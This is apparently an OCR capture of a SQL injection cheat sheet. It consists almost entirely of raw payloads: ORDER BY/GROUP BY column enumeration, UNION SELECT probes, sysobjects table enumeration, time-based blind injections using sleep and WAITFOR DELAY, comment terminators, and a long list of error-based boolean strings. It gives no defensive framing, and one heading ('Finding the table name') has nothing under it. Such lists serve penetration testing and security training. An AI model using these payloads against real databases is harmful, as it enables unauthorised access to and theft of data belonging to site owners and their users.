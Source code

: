
     1' ORDER BY 1--+
     1' ORDER BY 2--+
     1' ORDER BY 3--+

     1' ORDER BY 1,2--+
     1' ORDER BY 1,2,3--+

     1' GROUP BY 1,2,--+
     1' GROUP BY 1,2,3--+
     ' GROUP BY columnnames having 1=1 --


     -1' UNION SELECT 1,2,3--+
     ' UNION SELECT sum(columnname ) from tablename --


     -1 UNION SELECT 1 INTO @,@
     -1 UNION SELECT 1 INTO @,@,@

     1 AND (SELECT * FROM Users) = 1	

     ' AND MID(VERSION(),1,1) = '5';

     ' and 1 in (select min(name) from sysobjects where xtype = 'U' and name > '.') --


     Finding the table name


     Time-Based:
     ,(select * from (select(sleep(10)))a)
     %2c(select%20*%20from%20(select(sleep(10)))a)
     ';WAITFOR DELAY '0:0:30'--

     Comments:

     #	    Hash comment
     /*  	C-style comment
     -- -	SQL comment
     ;%00	Nullbyte
     `	    Backtick
    
  
  ## Generic Error Based Payloads

           OR 1=1
           OR 1=0
           OR x=x
           OR x=y
           OR 1=1#
           OR 1=0#
           OR x=x#
           OR x=y#
           OR 1=1-- 
           OR 1=0-- 
           OR x=x-- 
           OR x=y-- 
           OR 3409=3409 AND ('pytW' LIKE 'pytW
           OR 3409=3409 AND ('pytW' LIKE 'pytY
           HAVING 1=1
           HAVING 1=0
           HAVING 1=1#
           HAVING 1=0#
           HAVING 1=1-- 
           HAVING 1=0-- 
           AND 1=1
           AND 1=0
           AND 1=1-- 
